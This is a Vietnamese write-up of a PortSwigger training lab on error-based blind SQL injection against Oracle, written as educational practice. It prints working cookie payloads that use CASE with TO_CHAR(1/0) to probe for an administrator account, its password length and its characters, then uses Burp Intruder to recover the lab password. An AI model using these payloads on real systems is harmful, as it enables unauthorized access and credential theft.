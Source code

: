 # 🔍 Error-Based SQL Injection – PortSwigger Lab Writeup

Hello mọi người!Chào mừng đến với writeup đầu tiên của mình về khai thác SQL Injection để tìm mật khẩu của một tài khoản.Bài lab này được thực hiện trên nền tảng PortSwigger Web Security Academy.

> ⚠️ Nếu bạn không có nền tảng về bảo mật, có thể sẽ hơi khó hiểu. Nhưng bạn có thể coi đây là các bước "hack mật khẩu" trong môi trường mô phỏng.Lưu ý: Đây chỉ là lab để luyện tập, trong thực tế hiện nay các web hiện đại đã bảo mật tốt hơn nhiều

## Condition error based SQLi

### 1. Vấn đề của Blind SQLi

Phản hồi của giao diện không thay đổi dù truy vấn SQL có trả về giá trị hay không. Ứng dụng không hiện thị dữ liệu truy vấn
`OR 1=1 OR 1==2` thì giao diện trả về giống nhau nên không dùng được.

### 2. Tạo lỗi có điều kiện ( Conditional Error )

Cố tình gây lỗi trong câu truy vấn SQL nhưng trong DK bạn chèn vào là đúng

Khi lỗi xảy ra thì giao diện có thể hiện thị lỗi

`SELECT * FROM users WHERE username = '$input'`

`' AND (SELECT 1/0 FROM dual WHERE 'a'='a') -- `

### 3. Các kiến thức sử dụng

```sql
CASE
    WHEN điều_kiện_1 THEN giá_trị_1
    WHEN điều_kiện_2 THEN giá_trị_2
    ...
    ELSE giá_trị_mặc_định
END
```

```sql
CASE biểu_thức
    WHEN giá_trị_1 THEN kết_quả_1
    WHEN giá_trị_2 THEN kết_quả_2
    ...
    ELSE kết_quả_mặc_định
END
```

Note: các nhánh phải cùng kiểu dữ liệu.

Ví dụ:

```sql
SELECT
  CASE department_id
    WHEN 10 THEN 'HR'
    WHEN 20 THEN 'IT'
    ELSE 'Other'
  END AS department_name
FROM employees;
```

Khi điều kiện where đúng mới có dòng trả về nen mới thực thi select.
Ngược lại sẽ trả về 0 dòng nên không thực thi select.

### 4. Giải lab

Chúng ta sẽ khai thác lỗi ở TrackingID
TrackingId thường là một giá trị cookie được server dùng để:
Ghi lại hoạt động của người dùng (tracking).
Liên kết với session hoặc log để phân tích hành vi.
Tùy biến giao diện hoặc nội dung cho người dùng.

Chúng ta sẽ dùng burpsuite để khai thác lỗ hông này

Let's go!!!

- Bước 1. Thử trackingID có bị SQLi không
  ![alt text](image.png)
  ![alt text](image-1.png)

Chèn `trackingID = abc'` thì bị lỗi còn abc'' thì không bởi vì nó sẽ hiểu là
trackingID chuỗi thực tế là abc' ( vì '' là cách escape dấu ' )
-> Có SQLi

- Bước 2. thử `abc'||( select '' from dual)|| '` . Nhớ đặt select trong dấu () nhé, nếu không nó sẽ không hiểu là nối chuỗi đâu!
  trong oracle '' = NULL trong mysql
  ![alt text](image-2.png)

-> Ta có thể biết hệ thống dung oracle( dual la bảng ảo trong oracle)
và server không filter, có thể chạy lệnh sql hợp lệ

- Bước 3. Thử truy vấn 1 bảng không có thật để chứng minh câu sql có được thực thi thực sự trên dữ liệu
  backend hay không.

* FROM dual: giống như bạn bắn tín hiệu, thấy "server có nghe".
* FROM not_a_real_table: giống như bạn hỏi một câu khó, server nói "không có cái đó!" → server thật sự đang hiểu và trả lời SQL,
  Để làm chắc chắn hơn có thẻ thực thi Sql vì đây là blind SQLi
  ![alt text](image-3.png)

- Bước 4. Test điều kiện đúng/sai bằng lõi chia cho 00

`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE ''END from dual) ||'`
![alt text](image-4.png)
`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ''END from dual) ||'`
![alt text](image-5.png)

- Bước 5. Kiểm tra sử tồn tại của administrator trong bảng users (Đề bài cho )

`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=22) THEN TO_CHAR(1/0) ELSE ''END from users where username = 'administrator') ||'`
![alt text](image-6.png)
`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ''END from users where username = 'administrator') ||'`
![alt text](image-7.png)

- Bước 6. Tính độ dài của password

![alt text](image-8.png)
![alt text](image-9.png)

Password có độ dài bằng 20 kí tự .

- Bước 7. Brute force password.

Lab cho pw chỉ có kí từ a-z , 0-9 ( simple list).
Đừng hỏi tại sao lại chỉ dùng list này để dò mật khẩu.

Bước này hãy dùng Intruder để brute nhé. Sau pro hơn minh sẽ dùng python(Hãy đợi writeup tiếp theo).
Dùng Intruder như nào thì tự tìm hiểu nhé!

- Thành công lấy mật khẩukhẩu
  ![alt text](image-11.png)

password ="sbeu0dvy8fgrd2of14mw"
![alt text](image-12.png)
![alt text](image-13.png)

**Đăng nhập thành công!**
